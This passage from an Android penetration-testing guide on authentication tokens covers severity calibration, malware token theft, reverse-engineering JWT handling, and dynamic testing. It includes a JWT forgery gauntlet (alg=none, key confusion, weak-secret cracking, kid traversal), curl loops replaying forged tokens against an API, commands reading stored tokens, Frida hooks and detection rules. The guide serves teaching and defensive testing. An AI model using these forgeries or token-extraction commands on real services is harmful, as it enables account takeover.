| 1 | **Over-scoped** — it grants more than the app's function requires | A two-column table: every scope, and the specific feature that needs it. A row with an empty second column is the finding. Better: strip the scope and show the app still works. | Medium–High |
| 2 | **Long-lived** — the theft window is measured in weeks | `exp - iat` from the token itself, or the absence of `exp`. A refresh token that still works after N days, demonstrated. | Medium–High; Critical with no `exp` |
| 3 | **Replayable after logout** — revocation does not happen | Two `curl` invocations with the same token, one before and one after tapping Log Out, both returning 200. | High |
| 4 | **Accepted without verification** — one of §5.1–§5.4 works | The forged token and the server's 200 response. Not the token's own header; the **server's answer**. | Critical |
| 5 | **Readable by another app** — it escaped the sandbox | The path, its mode, the SELinux label of every ancestor, and — ideally — a proof-of-concept app with **zero permissions** that reads it. | High |

Three worked comparisons, so the calibration is concrete:

| What you did | What it is | Why |
|---|---|---|
| Rooted your own phone, hooked `Cipher.doFinal`, read your own token | **Informational.** A demonstration, not a finding. | You had to root your own device and instrument your own app instance to obtain data you already had. [49-KeyStore §1.3](../49-KeyStore/README.md) is the canonical framing. |
| Extracted a hardcoded HMAC secret from the APK and minted an admin token | **Critical.** | The secret is in every installation. One extraction, from a store download, on a laptop, forges tokens for **every user**. No device access needed. Break-once-run-everywhere. |
| Captured your own token, logged out, replayed it, got 200 | **High.** | The impact is not about *your* token. It is that **every** token this app issues survives logout, so any token obtained by any means — a leaked log, a shared device, a stolen backup — remains live indefinitely. |

> **🧠 Mental Model — the question that settles every severity argument**
> **"What did I learn that I did not already have?"**
>
> Ask it out loud before writing any token finding. Your own token from your own account:
> nothing. A forged admin token: everything. A token that outlives logout: you learned that
> the population of live tokens never shrinks, which is a property of the *system* and not
> of your session.
>
> The second question, when the first is not decisive: **"could the attacker in my threat
> model actually do this?"** A finding that requires root on the victim's phone is a
> different severity from one that requires nothing. Say which, every time.

### 5.11 How malware and forensics use tokens

**Malware.** Token theft is a primary objective for Android banking trojans and infostealers
because it converts a one-off device compromise into durable, remote account access that
survives the malware's removal. Observed patterns:

- Reading `/data/data/<pkg>/shared_prefs/` after obtaining root or exploiting a
  path-traversal bug in a target app.
- Abusing accessibility services to read tokens rendered on screen, or to drive an in-app
  flow that reveals one.
- Overlay attacks that capture credentials and then complete a genuine login, so the
  attacker holds a legitimately-issued token rather than a password.
- Exfiltrating the whole `AuthState` blob, which contains the access token, the refresh
  token, the `id_token` and the endpoint configuration in one JSON object — everything
  needed to keep the session alive from the attacker's own infrastructure.

The reason a refresh token is the target rather than the access token is section 3.9's
subject: without rotation, one exfiltration is permanent.

**Forensics.** Tokens are unusually good evidence, because they are self-describing and
timestamped:

- `iat`, `exp` and `auth_time` place a login at a specific moment.
- `jti` links a device artefact to a specific server-side log entry.
- `amr` records how the user authenticated — `pwd`, `mfa`, `otp` — which answers whether a
  second factor was actually used at the time in question.
- `sub` and `iss` identify the account and the provider unambiguously, without depending
  on a mutable email address.
- A token found on a device but *not* in the server's issuance log is strong evidence of
  forgery.

The practical caution for an examiner: `exp` in the past does **not** mean the token was
useless at the time of the incident, because a server that never checked `exp` (§5.5) does
not care. Establish what the verifier did, not just what the token said.

### 5.12 OWASP MASVS / MASTG mapping

| Control | What it asks | Where in this chapter |
|---|---|---|
| **MASVS-AUTH-1** | The app uses the current, appropriate authentication and authorisation protocols, enforced **server-side** | §5.1–§5.8. The catalogue is a MASVS-AUTH-1 test plan. |
| **MASVS-AUTH-2** | Local authentication is bound to a cryptographic operation, not a boolean | 48-Biometrics, and [49-KeyStore](../49-KeyStore/README.md) for the binding |
| **MASVS-AUTH-3** | Sensitive operations require step-up authentication | §5.8 — a token that already carries `payments.write` has skipped the step-up |
| **MASVS-STORAGE-1** | Sensitive data is not stored insecurely | §3.7 and §5.10 |
| **MASVS-STORAGE-2** | Sensitive data does not leak through unintended channels | §5.9 |
| **MASVS-CRYPTO-1** | Proven cryptographic primitives, correctly configured | §5.2, §5.4, and [34-Cryptography](../34-Cryptography/README.md) |
| **MASVS-NETWORK-1** | Encrypted network traffic | [35-SSL](../35-SSL/README.md) |

The MASVS-AUTH entry that [71-OWASP-Mobile](../71-OWASP-Mobile/README.md) cites against
this chapter is *"Replayed requests with downgraded session"*, and it maps directly to two
tests here: **replay after logout** (§3.10) and the **DPoP downgrade** test (§3.11, test 2).
Both are single requests and both are frequently productive.

MASTG test cases that touch this material: MASTG-TEST-0017 (testing credential
confidentiality), the MASTG-TEST-00xx series on session management and logout, and the
platform-agnostic authentication chapter's guidance on JWT handling. Cite the current
MASTG identifiers from the live site rather than a remembered number — the project renumbers
its tests between major versions and a stale ID in a report is worse than none.

---

## 6. Reverse Engineering Perspective

You have an APK and no source. The question is: what kind of token does this app handle,
where does it put it, and does it verify anything itself?

### 6.1 What token handling looks like in JADX

Three shapes account for almost everything you will meet.

**Shape 1 — a library. The easiest case.**

```java
// jadx output — AppAuth. The class names survive because the library is not obfuscated
// by default and R8 keeps what the manifest and reflection reference.
public void onTokenResponse(TokenResponse resp, AuthorizationException ex) {
    this.authState.update(resp, ex);
    SharedPreferences.Editor edit = this.prefs.edit();
    edit.putString("state", this.authState.jsonSerializeString());
    edit.apply();
}
```

`AuthState.jsonSerializeString()` is the tell, and `"state"` in SharedPreferences is where
a very large number of AppAuth apps put everything. That single JSON blob contains the
access token, the refresh token, the `id_token`, the scope and the full endpoint
configuration. Finding it is finding all of it.

**Shape 2 — a hand-rolled JWT decoder. The most interesting case.**

```java
// jadx output — the pattern to recognise
String[] split = str.split("\\.");
byte[] decode = Base64.decode(split[1], 8);        // 8 == Base64.URL_SAFE
JSONObject jSONObject = new JSONObject(new String(decode, StandardCharsets.UTF_8));
this.userId = jSONObject.getString("sub");
this.expiresAt = jSONObject.getLong("exp");
```

Read what is there and, more importantly, what is not. `split[2]` — the signature — is
never touched. The app is **decoding**, not verifying. That is usually fine on the client
(§9.2 explains why the client verifying is often the wrong instinct anyway), but it tells
you the app is treating claims as facts, and it tells you exactly which claims it reads.

The magic number `8` is `Base64.URL_SAFE`. You will also see `10` (`URL_SAFE | NO_WRAP`)
and `11` (`URL_SAFE | NO_WRAP | NO_PADDING`). Recognising those three integers in a decompiled
`Base64.decode` call is a fast way to find every JOSE site in an app.

**Shape 3 — a JWT library on the client.**

```java
// jadx output — Auth0 java-jwt. `decode` does NOT verify; the name is a trap.
DecodedJWT decode = JWT.decode(token);
String subject = decode.getSubject();
Date expiresAt = decode.getExpiresAt();
```

If you see `JWT.decode(...)` with no accompanying `JWT.require(algorithm).build().verify(...)`,
the app is not verifying. If you see `JWT.require(Algorithm.HMAC256(secret))` on the client,
find `secret` — an app that can verify HS256 can also mint, and the key is in the APK.

### 6.2 In the APK on disk

```bash
# host
unzip -o app.apk -d apk/ >/dev/null

# 1. Is there a token in the resources? It happens more often than it should.
grep -rEo 'eyJ[A-Za-z0-9_-]{10,}\.[A-Za-z0-9_-]{10,}\.[A-Za-z0-9_-]*' apk/ | sort -u | head

# 2. Which JWT library is linked in?
unzip -l app.apk | grep -iE "jwt|jose|nimbus|appauth|jjwt"
grep -rl "io/jsonwebtoken\|com/auth0/jwt\|com/nimbusds/jwt\|net/openid/appauth" apk/ 2>/dev/null

# 3. Anything secret-shaped in resources
grep -riE "jwt.?secret|signing.?key|hmac.?key|client.?secret" apk/res/values/*.xml

# 4. Native side -- a JWT implementation in C++ is unusual and worth a look
for so in apk/lib/*/*.so; do
  strings "$so" | grep -qiE "HS256|RS256|\"alg\"|jwt" && echo "JOSE strings in $so"
done
```

Hit 1 deserves a note: a JWT in `res/values/strings.xml` or in an asset is almost always a
test fixture somebody forgot, and it is almost always expired. Decode it anyway — its `iss`,
`aud` and claim names map the identity infrastructure for free, and occasionally the `sub`
is a real internal account.

### 6.3 Smali patterns

The base64url decode is the anchor, because every JWT path passes through it. In Smali:

```smali
# The hand-rolled decoder, compiled. Recognise the constant 0x8 (URL_SAFE).
.method private parseToken(Ljava/lang/String;)Lorg/json/JSONObject;
    .locals 4

    # String[] parts = token.split("\\.");
    const-string v0, "\\."
    invoke-virtual {p1, v0}, Ljava/lang/String;->split(Ljava/lang/String;)[Ljava/lang/String;
    move-result-object v0

    # parts[1] -- the PAYLOAD. Note: index 1, not 2. The signature is never read.
    const/4 v1, 0x1
    aget-object v1, v0, v1

    # Base64.decode(parts[1], 8)   <-- 0x8 is Base64.URL_SAFE
    const/16 v2, 0x8
    invoke-static {v1, v2}, Landroid/util/Base64;->decode(Ljava/lang/String;I)[B
    move-result-object v1

    # new String(bytes, UTF_8)
    new-instance v2, Ljava/lang/String;
    sget-object v3, Ljava/nio/charset/StandardCharsets;->UTF_8:Ljava/nio/charset/Charset;
    invoke-direct {v2, v1, v3}, Ljava/lang/String;-><init>([BLjava/nio/charset/Charset;)V

    # new JSONObject(json)
    new-instance v0, Lorg/json/JSONObject;
    invoke-direct {v0, v2}, Lorg/json/JSONObject;-><init>(Ljava/lang/String;)V

    return-object v0
.end method
```

Three things to read off that listing:

**`const/4 v1, 0x1` then `aget-object`** — the payload is being taken. If you see `0x2`
being fetched and passed to a `Mac` or a `Signature`, the app really is verifying, which is
unusual and worth understanding.

**`const/16 v2, 0x8`** — `URL_SAFE`. Grep for this constant flowing into `Base64;->decode`
and you have found every JOSE site in the DEX regardless of method names.

**No `Mac`, no `Signature`, no `MessageDigest`** anywhere in the method. The absence is the
information.

```bash
# host — find every base64url decode in a whole app, obfuscation-proof
apktool d app.apk -o work/ >/dev/null
grep -rn "Landroid/util/Base64;->decode" work/smali*/ | wc -l
grep -rn -B4 "Landroid/util/Base64;->decode" work/smali*/ | grep -E "const/(4|16) v[0-9]+, 0x(8|a|b)" | head

# and the storage sites
grep -rn "putString" work/smali*/ | grep -iE "token|auth|session|jwt" | head -20
```

### 6.4 What obfuscation does — and does not do

| Survives obfuscation | Why |
|---|---|
| `Landroid/util/Base64;->decode` | A platform API. R8 cannot rename it. |
| The string `"\\."` used as a split pattern | String constants survive unless string encryption is applied. |
| `Ljava/security/Signature;`, `Ljavax/crypto/Mac;` | Platform APIs. |
| `SharedPreferences` and the **preference file name** | The file name is a runtime string; even encrypted, it must be decrypted before `getSharedPreferences` is called, so a Frida hook recovers it. |
| The **claim names** in JSON (`sub`, `exp`, `aud`) | They must match the server's, so they cannot be renamed. This is the single most reliable anchor. |
| Network behaviour | Obfuscation does not change what goes on the wire. |

| Does not survive | Consequence |
|---|---|
| Your own class and method names | `TokenManager` becomes `a.b.c`. Navigate by API call instead. |
| Field names | `refreshToken` becomes `f`. Navigate by the string constant used as the preference key. |
| Small helper methods | R8 inlines them, so the decode may be spliced into its caller. |

> **🔍 Pentester's Note**
> The claim names are the thing to anchor on, and it is worth saying why they are
> obfuscation-proof: they are part of a **contract with the server**. Rename `"exp"` and the
> server rejects every token. So `const-string vN, "exp"` is present in the DEX of any app
> that reads a JWT, no matter how aggressively it is obfuscated.
>
> ```bash
> grep -rn 'const-string.*"\(sub\|exp\|aud\|iss\|jti\|scope\|access_token\|refresh_token\)"' \
>      work/smali*/ | head -30
> ```
>
> [40-Obfuscation](../40-Obfuscation/README.md) covers what R8 actually removes; the
> general lesson repeated here is that **anything that must match an external contract is
> not obfuscatable**.

### 6.5 Cross-platform and native implementations

| Stack | Where the token handling is | How to find it |
|---|---|---|
| React Native | `index.android.bundle`, minified JavaScript | `unzip -p app.apk assets/index.android.bundle \| grep -oE '"(access_token\|refresh_token\|Bearer)"'` |
| Flutter | `libapp.so`, AOT-compiled Dart | Strings survive: `strings libapp.so \| grep -iE "bearer\|access_token\|jwt"`. Reversing the logic needs [57-Ghidra](../57-Ghidra/README.md) and a Dart AOT understanding. |
| Xamarin / .NET | `assemblies/*.dll`, often LZ4-compressed | Decompress, then any .NET decompiler. `System.IdentityModel.Tokens.Jwt` is the library to look for. |
| Cordova / Ionic | `assets/www/` | Plain JavaScript. `localStorage.setItem('token', ...)` is the usual sight, and it is reachable by any script in the WebView — see [43-WebView](../43-WebView/README.md). |
| Native C/C++ | A `.so` | Look for `jwt_decode`, `HS256`, `RS256`, `EVP_DigestVerify`, and Base64 tables. A custom JOSE implementation in C is rare and, when present, deserves careful review — the parsing is where the bugs will be. |

---

## 7. Dynamic Analysis

Everything above is preparation. This is where you find out what the **verifier** does,
which is the only thing that decides whether any of it is a finding.

### 7.1 The method, in order



Step 3 is the one people skip and it invalidates everything after it. **Establish that the
unmodified token returns 200 first.** If it does not — wrong host, expired, missing a
required header, a WAF in the way — then every subsequent 401 tells you nothing about the
verifier, and you will spend an afternoon concluding that a perfectly vulnerable server is
secure.

### 7.2 Capturing a token

[45-OAuth §7.1](../45-OAuth/README.md#71-setting-up-interception) and
[35-SSL](../35-SSL/README.md) own interception setup and are not repeated. The token-specific
part is: capture the **whole token response**, not just the access token, because the
presence or absence of `refresh_token` on a *refresh* response is what tells you whether
rotation is on.

```bash
# host — the fastest capture that needs no proxy at all, if the app is debuggable
adb shell "run-as com.example.app cat /data/data/com.example.app/shared_prefs/auth.xml"

# and the fastest that needs nothing but a running app and a login:
adb logcat -c && echo "log in now" && sleep 30 && \
  adb logcat -d | grep -oE 'eyJ[A-Za-z0-9_-]+\.[A-Za-z0-9_-]+\.[A-Za-z0-9_-]*' | sort -u
```

> **⚠️ Warning — the device this chapter was written against**
> The i9000S (Android 13 / API 33) attached here is **not rooted** and has **no
> frida-server**: `su` reports "inaccessible or not found". Neither of the two commands
> above returns anything for a non-debuggable app on it, and the Frida material in §7.6
> could not be executed against it. That is recorded rather than papered over. The gauntlet
> in §7.4 runs entirely on the host and needs no device at all, which is exactly why it is
> the load-bearing measurement in this chapter.

### 7.3 Reading a captured token

```bash
# host — everything about a token, offline, without transmitting it
python3 -B scripts/jwt-analyse.py --token "$TOKEN" \
    --expect-iss https://issuer.example.com \
    --expect-aud com.example.app \
    --expect-alg RS256
```

Real output, against a token minted by this chapter's local issuer:

```
  HEADER (JOSE header, RFC 7515 section 4)
  {
    "alg": "RS256",
    "kid": "rsa-2026-08",
    "typ": "JWT"
  }

  HEADER VERDICTS
  alg       RS256 -- asymmetric (RSA PKCS#1 v1.5). Only the issuer can mint; anyone with
            the public key can verify. Correct for a token a client inspects.
  kid       'rsa-2026-08'

  PAYLOAD (claims set, RFC 7519 section 4)
  Base64url is an ENCODING, not encryption. Anyone holding this token can
  read every line below with two commands and no key. Only a verifier with
  the right key can prove any of it is TRUE.
  191 bytes, 9 claims

  aud           com.pentest.ch46.client
                (Audience)
  exp           1786539271   [2026-08-12 12:54:31Z, in 15.0 min]
                (Expiry)
  ...

  SIGNATURE
  256 bytes (342 base64url chars)
            implies a 2048-bit RSA modulus
  NOT VERIFIED. This script holds no keys and fetches none.

  LIFETIME
  exp       2026-08-12 12:54:31Z  (15.0 min remaining)
  lifetime  15.0 min (exp - iat)
            reasonable for an access token

  SENDER CONSTRAINING -- is possession alone enough?
  cnf       absent: this is a PURE BEARER TOKEN.
```

> **⚠️ Warning — never paste a token into a website**
> Public "JWT decoder" sites receive the token you paste into them. Pasting a client's
> token into one is a data-handling incident and it has ended engagements. There is no
> version of this that is acceptable, including "it was only a test token" — you will not
> always know which one you have in the clipboard.
>
> `scripts/jwt-analyse.py` installs a guard that replaces `socket.socket` with a class that
> raises, so no code path in it can open a connection. Prove it yourself:
>
> ```
> $ python3 -B scripts/jwt-analyse.py --self-test
> Transmission guard self-test.
>   socket.socket()        blocked: jwt-analyse.py attempted to open a socket. This
>                          script must never transmit a token. Refusing.
>   urllib.request         blocked: jwt-analyse.py attempted to open a socket. ...
>   No token this script reads can leave this machine through it.
> ```

### 7.4 The gauntlet — measured output

This is the chapter's central measurement, and it was run for real while writing this.
[`labs/lab-02-the-jwt-attack-gauntlet.md`](labs/lab-02-the-jwt-attack-gauntlet.md) walks
through building every piece; this is what happens when you run it.

```bash
# host — mints throwaway keys, builds nine tokens, submits each to both verifiers
python3 -B labs/gauntlet/run-gauntlet.py --workdir /tmp/ch46-lab
```

```
[+] workdir      /tmp/ch46-lab
[+] RSA keypair  2048-bit, kid=rsa-2026-08, thrown away when you delete the workdir
[+] HMAC secret  kid=hs-legacy, 9 bytes -- deliberately weak
[+] JWKS         public/jwks.json (496 bytes)
[!] Every token minted from this workdir is yours.

[*] A4 offline crack: tried 10 candidates in 0.1 ms -> recovered 'Passw0rd!'

====================================================================================
id  attack                                              broken        correct
====================================================================================
A0  genuine RS256 token from the local issuer           ACCEPT        ACCEPT
A1  alg=none, role escalated to admin                   ACCEPT        reject
A2  alg=NoNe -- case-variant of the same bypass         ACCEPT        reject
A3  HS256 signed with the published RSA public key      ACCEPT        reject
A4  weak HMAC secret cracked offline, admin forged      ACCEPT        reject
A5  kid traversal to ../public/jwks.json, HMACed with   ACCEPT        reject
A6  genuine signature, expired 365 days ago             ACCEPT        reject
A7  genuine signature, aud is a different client        ACCEPT        reject
A8  payload edited to role=admin, original signature k  reject        reject
====================================================================================

Why the correct verifier said no (this is the part worth reading):
  A1  empty signature segment (unsigned token)
  A2  empty signature segment (unsigned token)
  A3  key selection failed: unknown HMAC kid 'rsa-2026-08'
  A4  key selection failed: header has no kid, and this verifier does not guess
  A5  key selection failed: unknown HMAC kid '../public/jwks.json'
  A6  expired 31532400s ago
  A7  aud 'com.pentest.ch46.otherapp' does not contain 'com.pentest.ch46.client'
  A8  RS256 signature invalid

broken verifier : accepted 8/9 (7 forgeries)
correct verifier: accepted 1/9 (0 forgeries)

[+] wiped /tmp/ch46-lab -- the private key existed for the life of this run

PASS: every cell matched the expected matrix.
```

Four things in that output are worth dwelling on.

**The broken verifier accepted seven forgeries out of eight.** Not because it is a
strawman — it splits correctly, decodes base64url correctly, parses JSON correctly, and
performs a real RSA signature verification. It is wrong in ways that survive code review.

**A8 was rejected by both.** A payload edited without re-signing fails the RS256 check, in
the broken verifier too. This is the negative control and it is the most instructive row in
the table: it is why a reviewer who asks *"does it verify the signature?"* gets a truthful
yes and moves on. The signature check works. Seven other things do not.

**A3, A4 and A5 were rejected at key selection, not at the signature.** The correct
verifier's defence against algorithm confusion is not a cleverer comparison — it is that
keys are **typed**. The RSA public key lives in `rsa_public_pems` and the HMAC path reads
`hmac_secrets`, so `alg: HS256` with `kid: rsa-2026-08` is a dictionary miss. The
allow-list would have caught it too; having both is depth rather than redundancy.

**A6 and A7 were genuinely signed.** Nothing was forged. The signature was never the control
that failed. Half of this chapter's failure classes have nothing to do with cryptography at
all, and a tester who only tries `alg:none` will miss them.

### 7.5 Running the gauntlet against a real server

The nine tokens above go to a fixture verifier. On an engagement they go to the target.

```bash
# host — the same nine attacks, as requests. $BASE and $AT are yours.
API="https://api.example.com/v1/me"

# 0. BASELINE FIRST. This must be 200 or nothing below means anything.
curl -s -o /dev/null -w 'A0 baseline        %{http_code}\n' -H "Authorization: Bearer $AT" "$API"

# 1-8: forge each variant, then:
for f in a1_none a2_NoNe a3_confusion a4_weaksecret a5_kid a6_expired a7_aud a8_tampered; do
  T=$(cat forged/$f.jwt)
  printf '%-18s ' "$f"
  curl -s -o /dev/null -w '%{http_code}\n' -H "Authorization: Bearer $T" "$API"
done
```

Reading the responses, which is where judgement enters:

| Response | What it means |
|---|---|
| **200** | The forgery was **accepted**. This is the finding. Capture the full request and response. |
| **401** | Rejected. Good — but only for that exact variant. |
| **403** | Authenticated but not authorised. **Interesting**: the token was *accepted* and then the permission check failed. Verification passed. Try the same forgery with a different `sub` or `scope`. |
| **500** | The forgery broke the parser. Not a token finding, but a bug — and the stack trace, if returned, names the library and version. |
| **400** | Usually malformed input. Check your encoding before concluding anything; a `+` in a segment (standard base64 rather than base64url) produces exactly this. |

> **🔍 Pentester's Note — the 403 is the one to chase**
> A 401 means the token was rejected. A 403 means it was **accepted** and the authorisation
> decision then failed. That is a completely different result, and it means your forgery
> worked. Change `sub` to another user, or add the scope the endpoint wants, and try again.
> Testers routinely record 403 as "blocked" and walk away from a working authentication
> bypass.

### 7.6 Frida — watching the app handle its tokens

```bash
# host
frida -U -f com.example.app -l scripts/token-hooks.js
```

The script hooks six surfaces: SharedPreferences (including the encrypted variant), file
and SQLite writes, OkHttp and `HttpURLConnection` headers, `AccountManager`, the four common
JWT libraries, and `android.util.Log`. It redacts by default, printing a prefix, a length
and a SHA-256 prefix.

The redaction is not just hygiene — it is what makes the output usable as evidence:

```
Distinct token-shaped values observed: 2

  sha256:9f3ac21b7e04  seen 4 times
      prefs.put:refresh_token
      okhttp.header:Authorization

A fingerprint appearing in BOTH a storage context and a network context proves the stored
value is the credential in use -- without either of them ever being printed.
```

That correlation is exactly what a finding needs and it is safe to paste into a report,
which a screenshot of a live token is not.

> **⚠️ Warning — honesty about what was and was not run**
> `scripts/token-hooks.js` was **not executed** against the device attached while this
> chapter was written, because that device (i9000S, API 33) is not rooted and has no
> frida-server. It is written against documented APIs and follows the hook shapes used
> elsewhere in this repository — compare
> [`45-OAuth/scripts/oauth-flow-tracer.js`](../45-OAuth/scripts/oauth-flow-tracer.js),
> written for the same estate. Verify it on your own rooted device before relying on it.
> [53-Frida](../53-Frida/README.md) covers setup.

The single most valuable moment to use it is **logout**:

```javascript
// Frida REPL, after tapping Log Out in the app
rpc.exports.dumpprefs()      // did the app actually clear its token store?
rpc.exports.summary()        // and which values did it hold?
```

Then replay the token you captured. The app clearing its own storage and the server
invalidating the token are two entirely different events, and only one of them is a
security control.

### 7.7 Objection, for a fast first look

```bash
# host
objection -g com.example.app explore

# inside objection
android hooking watch class_method android.content.SharedPreferences$Editor.putString --dump-args
android sslpinning disable
android heap search instances java.lang.String            # noisy, but occasionally decisive
```

Objection is faster to reach a first result and much less precise than a purpose-built
script. Use it to confirm the app uses SharedPreferences at all, then switch to
`token-hooks.js` for anything you intend to write down.

### 7.8 Testing revocation and logout — the ninety-second test

Reproduced here from §3.10 because it belongs in every test plan and is skipped constantly:

```bash
# host
curl -s -o /dev/null -w 'before logout: %{http_code}\n' -H "Authorization: Bearer $AT" "$API"
echo ">>> now tap Log Out in the app, then press enter"; read -r
curl -s -o /dev/null -w 'after  logout: %{http_code}\n' -H "Authorization: Bearer $AT" "$API"
curl -s -X POST "$TOKEN_ENDPOINT" -d grant_type=refresh_token \
     -d refresh_token="$RT" -d client_id="$CID" -w '\nrefresh after logout: %{http_code}\n'
```

Three requests, one button press. If the refresh token still mints access tokens after
logout, you have a High and you got it in ninety seconds.

### 7.9 Testing scope enforcement

An over-scoped token is only a finding if the scope means something. Prove it does:

```bash
# host — for each scope in the token, find the endpoint that needs it
python3 -B scripts/jwt-analyse.py --token "$AT" | grep -A3 "AUTHORISATION DATA"

# then, with a token that does NOT have a scope, call the endpoint that needs it
curl -s -o /dev/null -w 'read-only token -> write endpoint: %{http_code}\n' \
     -H "Authorization: Bearer $READ_ONLY_TOKEN" \
     -X POST "$API/transfer" -d '{"amount":1}'
# 403 = scope is enforced (good).  200 = scope is decorative (finding).
```

A 200 here is a serious finding and it is independent of every forgery class: it means the
resource server is not consulting `scope` at all, so narrowing the token would not have
helped anyone.

---

## 8. Static Analysis

Finding token handling in an app you have not run.

### 8.1 The manifest

The manifest does not mention tokens, but three things in it change their exposure.

```bash
# host
apktool d app.apk -o work/ >/dev/null
```

| Look for | Why it matters to a token |
|---|---|
| `android:allowBackup="true"` (the default below API 31 semantics) | The token store may leave the device. Check for an exclusion rule. |
| `android:fullBackupContent="@xml/backup_rules"` | Read the file. Does it exclude `shared_prefs`? |
| `android:dataExtractionRules="@xml/data_rules"` (API 31+) | Two sections, `cloud-backup` and `device-transfer`. **Both** need the exclusion. |
| `android:debuggable="true"` | `run-as` works, so the token store is readable with adb alone. |
| Exported components | An exported activity, service or provider that returns or forwards a token. [27-ContentProviders](../27-ContentProviders/README.md), [26-Intent](../26-Intent/README.md). |
| `<uses-permission android:name="android.permission.GET_ACCOUNTS" />` | The app reads or writes `AccountManager`. |
| A `<service>` with `android.accounts.AccountAuthenticator` | The app **is** an authenticator; it owns an account type and mints tokens other apps may request. |

```bash
grep -nE 'allowBackup|dataExtractionRules|fullBackupContent|debuggable' work/AndroidManifest.xml
grep -n -A6 'AccountAuthenticator' work/AndroidManifest.xml
cat work/res/xml/backup_rules.xml 2>/dev/null
cat work/res/xml/data_extraction_rules.xml 2>/dev/null
```

> **⚠️ Warning — the exclusion rule that only covers half the exposure**
> On API 31+ `dataExtractionRules` has **two** independent sections. An app that excludes
> its token store from `<cloud-backup>` but not from `<device-transfer>` has protected it
> from Google's servers and not from a device-to-device migration. Check both. This is a
> genuinely easy one to miss because the file *looks* like it handles it.

### 8.2 The code

```bash
# host
jadx -d out/ app.apk 2>/dev/null

# --- 1. Which JWT library, if any? -------------------------------------------
grep -rl "io/jsonwebtoken\|com/auth0/jwt\|com/nimbusds\|net/openid/appauth" out/ | head

# --- 2. Decode-without-verify: the highest-value grep in this section ---------
grep -rn "JWT.decode(\|parseClaimsJwt(\|PlainJWT\|decodeJwt" out/sources/
#   then check whether a verify() appears anywhere near each hit

# --- 3. Hand-rolled JOSE ------------------------------------------------------
grep -rn 'split("\\\\.")' out/sources/ | head
grep -rn "Base64.decode\|Base64.encodeToString" out/sources/ | grep -i "url_safe\|, 8\|, 10\|, 11"

# --- 4. Where does it go? -----------------------------------------------------
grep -rn "putString" out/sources/ | grep -iE "token|auth|session|jwt|credential"
grep -rn "EncryptedSharedPreferences\|MasterKey" out/sources/
grep -rn "setAuthToken\|getAuthToken\|addAccountExplicitly" out/sources/

# --- 5. How is it sent? -------------------------------------------------------
grep -rn "Authorization" out/sources/ | head -20
grep -rn '"Bearer' out/sources/ | head
grep -rn '"DPoP\|dpop+jwt\|cnf' out/sources/          # sender-constrained? rare but check

# --- 6. Does it leak? ---------------------------------------------------------
grep -rn "Log\.\(d\|v\|i\|w\|e\)" out/sources/ | grep -iE "token|auth|bearer|jwt" | head

# --- 7. Is a secret compiled in? ----------------------------------------------
grep -rniE "jwt.?secret|signing.?key|hmac.?key|client.?secret" out/ | head
grep -rn "Algorithm.HMAC256\|SecretKeySpec" out/sources/ | head

# --- 8. Does the app revoke on logout? ----------------------------------------
grep -rn "revoke\|logout\|signOut" out/sources/ | head -20
#   Then read each hit. "clears prefs and finishes the activity" is the bug in section 3.10.
```

### 8.3 What each result means

| Finding | Interpretation |
|---|---|
| `JWT.decode()` with no nearby `verify()` | The client trusts claims it has not verified. Usually acceptable for display, never for an authorisation decision. Check what it does with the result. |
| `split("\\.")` plus `Base64.decode(..., 8)` | Hand-rolled JOSE. Read the whole method: which index is taken, and is index 2 ever touched? |
| `Algorithm.HMAC256(...)` on the client | The app can **mint** tokens. Find the secret; it is in the APK. |
| `EncryptedSharedPreferences` | A positive. Note it, then look for a plaintext copy elsewhere ([33-Storage §5.4](../33-Storage/README.md)). |
| `setAuthToken` | The token is outside the app's sandbox. Enumerate every package declaring the same account type. |
| `"Bearer " + idToken` | §5.6, immediately. The API does not check `aud`. |
| No `revoke` anywhere | §3.10. Confirm dynamically before writing it up — the revocation may be on the backend. |
| `DPoP` or `cnf` | Rare and a strong positive. Then run the four tests in §3.11 to see whether it is enforced. |

### 8.4 What static analysis cannot decide

This is the honest boundary, and stating it is what keeps a report from claiming more than
it measured.

Static analysis of the APK tells you what the **client** does. Every failure class in §5 is
a property of the **verifier**, which is on a server you cannot read. So:

- You cannot tell from the APK whether `alg: none` is accepted.
- You cannot tell whether `aud` is checked.
- You cannot tell whether the refresh token rotates.
- You cannot tell whether logout revokes.
- You cannot tell whether an over-scoped token's scope is even enforced.

What you *can* do statically is build the target list: which tokens exist, where they go,
which endpoints they are sent to, and which claims the client cares about. Then you send
requests.

[45-OAuth's CTF](../45-OAuth/labs/lab-04-ctf-the-borrowed-identity.md) is built entirely
around this lesson — an app that is flawless, three server-side flaws, and participants who
spend two hours decompiling because decompiling feels like progress. The same trap applies
here with more force, because a token's whole security model lives at the other end of the
connection.

### 8.5 Semgrep rules worth having

```yaml
# host — semgrep --config ch46-tokens.yml out/sources/
rules:
  - id: jwt-decode-without-verify
    message: >-
      JWT decoded but not verified. Claims from this token are attacker-controlled.
    languages: [java, kotlin]
    severity: ERROR
    patterns:
      - pattern-either:
          - pattern: com.auth0.jwt.JWT.decode($T)
          - pattern: $P.parseClaimsJwt($T)
      - pattern-not-inside: |
          $V.verify(...)
          ...

  - id: id-token-as-bearer
    message: >-
      An id_token is being sent as a bearer credential. Its aud is the client,
      not the API. See 46-Tokens section 5.6.
    languages: [java, kotlin]
    severity: ERROR
    pattern-either:
      - pattern: |
          "Bearer " + $X.getIdToken(...)
      - pattern: |
          "Bearer " + $P.getString("id_token", ...)

  - id: token-in-log
    message: Token material passed to android.util.Log.
    languages: [java, kotlin]
    severity: WARNING
    pattern-either:
      - pattern: android.util.Log.$M($TAG, ... + $T.getAccessToken() + ...)
      - pattern: android.util.Log.$M($TAG, ... + $T.getRefreshToken() + ...)
```

These are starting points, not a suite. As [52-StaticAnalysis](../52-StaticAnalysis/README.md)
measured across a real 17 MB app — 16,836 raw hits reduced to 168 leads, of which 15 of the
top 17 were rejected by hand — **a sweep produces leads, not findings**, and confidence
ranking is not severity ranking. Expect to adjudicate every hit.

---

## 9. Examples

Five graded examples, simple to enterprise. Every one is a real, runnable or compilable
file in [`examples/`](examples/) — see [`examples/README.md`](examples/README.md) for the
mapping.

### 9.1 Simple — build a JWT by hand, in ten lines

The fastest way to stop finding JWTs mysterious is to make one. There is no library and no
magic here: two JSON objects, base64url, and one HMAC.

```python
#!/usr/bin/env python3
# host — python3 -B make-a-jwt.py
# Mint a JWT with nothing but the standard library, so the format stops being opaque.
import base64, hashlib, hmac, json, time

def seg(obj):
    # separators=(",",":") matters: the signature covers the exact BYTES, so a
    # verifier that re-serialises the parsed JSON will compute a different signature
    # over semantically identical claims.
    raw = json.dumps(obj, separators=(",", ":"), sort_keys=True).encode()
